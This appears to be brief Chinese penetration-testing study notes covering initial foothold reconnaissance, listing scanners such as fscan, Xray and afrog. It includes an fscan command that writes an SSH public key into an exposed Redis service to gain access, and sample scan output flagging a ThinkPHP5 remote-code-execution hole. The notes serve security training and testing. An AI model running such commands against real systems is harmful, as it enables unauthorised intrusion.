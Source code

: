 内网渗透
入侵排查


# 考核

单靶机渗透
内网渗透
安全事件处置

# 外网打点

## 背景（拿到web服务器入口点）

### 信息收集

#### 1、指纹信息收集

传统漏洞收集，sql注入，弱口令爆破，文件上传

工具：

- TideFinger

- Xray

- fscan扫描

- afrog

#### redis 写入公钥

```
./fscan -h 172.16.166.142 -p 6379 -rf /tmp/id_ed25519.pub
```



#### 2、敏感目录，敏感文件收集

获取历史漏洞，然后漏洞复现



#### 例一

```
fscan.exe -h 10.3.4.123


   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.4
start infoscan
10.3.4.123:80 open
[*] alive ports len is: 1
start vulscan
[*] WebTitle http://10.3.4.123         code:200 len:931    title:None
[+] PocScan http://10.3.4.123 poc-yaml-thinkphp5-controller-rce
已完成 1/1
[*] 扫描结束,耗时: 34.195984s


afrog.exe -t http://10.3.4.123/

```
